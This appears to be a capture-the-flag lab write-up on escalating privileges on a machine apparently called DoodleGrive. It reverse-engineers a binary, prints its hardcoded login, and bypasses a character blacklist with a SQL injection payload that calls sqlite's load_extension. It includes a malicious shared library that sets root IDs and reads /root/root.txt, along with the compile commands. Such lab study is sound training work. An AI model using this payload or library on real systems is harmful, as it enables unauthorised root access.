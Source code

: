 lsoIn the symbol table we find the main_menu function which seems to be the main entry point for the binary, and from there we find the username and password
`moriarty:findMeIfY0uC@nMr.Holmz!`

![[Pasted image 20231202051738.png]]

looking at the main_menu function we get
![[Pasted image 20231202051806.png]]

## exploitation
so in order to exploit this, the main thing were looking out for is user input in any of the functions, and in fact we do have one function called `5. Activate user account`
- activate_user_account
![[Pasted image 20231202052048.png]]
as we can see the if condition checks if the username is empty, and when its not (else block) it calls a function called `sanitize_string`, lets check it out

- sanitize_string
```c

void sanitize_string(long username)

{
  bool bVar1;
  ulong uVar2;
  long in_FS_OFFSET;
  int local_3c;
  int local_38;
  uint i;
  undefined8 blacklist;
  undefined local_21;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_3c = 0;
  blacklist = 0x5c7b2f7c20270a00; //array of blacklist char \{/| ' 
  local_21 = 0x3b; // ; semicolor
  local_38 = 0;
  do {
    uVar2 = FUN_00401180(username);
    if (uVar2 <= (ulong)(long)local_38) {
      *(undefined *)(username + local_3c) = 0;
      if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail(); //stack smashing detection function
      }
      return;
    }
    bVar1 = false;
    for (i = 0; i < 9; i = i + 1) {
      if (*(char *)(username + local_38) == *(char *)((long)&blacklist + (long)(int)i)) {
        bVar1 = true; //if username has blacklist char, break
        break;
      }
    }
    if (!bVar1) {
      *(undefined *)(local_3c + username) = *(undefined *)(local_38 + username);
      local_3c = local_3c + 1; // do something? idk
    }
    local_38 = local_38 + 1; //no idea either?
  } while( true );
}
```
blacklist characters `\{/| '`

so with this link
https://stackoverflow.com/questions/12424883/is-it-possible-to-test-if-loading-extensions-is-enabled-in-sqlite-3
we see that the load_extension is enabled
![[Pasted image 20231202055037.png]]

Now the whole idea of the exploit is to load a malicious module, which could be anything like reading root.txt or setting SUID on /bin/bash, so we create a malicious c file to cat root.txt 

its also important to note that the load_extension takes in shared library files, now if we look at the documentation of sqlite https://www.sqlite.org/loadext.html, and i qoute `"Note that different operating systems use different filename suffixes for their shared libraries. Windows uses ".dll", Mac uses ".dylib", and most unixes other than mac use ".so". If you want to make your code portable, you can omit the suffix from the shared library filename and the appropriate suffix will be added automatically by the sqlite3_load_extension() interface."` means we need to have a `.so` file.

reading further down we also see them mentioning the naming convetion of load_extension
![[Pasted image 20231202061632.png]]
armed with this information and sanitize_string check we need to do the following
- Dont overrun the username input limit (48 characters)
![[Pasted image 20231202061820.png]]
- name our extension like `sqlite3_a_init`
- substitute for blacklisted characers (use decimal to substitute for `.` from ascii table)
- escape the query
- the effective query becomes 
```bash
"/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"\""+load_extension(char(46,47,98))+"\'"
```

## steps
1) create a c file 
```c
#include <unistd.h>
#include<stdlib.h>
void sqlite3_b_init() {
        setuid(0);
        setgid(0);
        system("/usr/bin/cat /root/root.txt > /tmp/guys.txt");
}
```
2) compile it as a shared library
```bash
 gcc -shared -o b.so -fPIC b.c
```
3) run the binary -> login -> select option 5
![[Pasted image 20231202065239.png]]
5) exit out and cat`/tmp/guys.txt`
![[Pasted image 20231202065253.png]]
- sql query
```sql
"/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"\";\'"
```
payload 
```bash
"+load_extension(char(46,47,98))+"
46 is . in ascii dec
47 is / in ascii dec
98 is b in ascii dec
```

side node: i tried getting a reverse shell but its broken i couldnt run any commands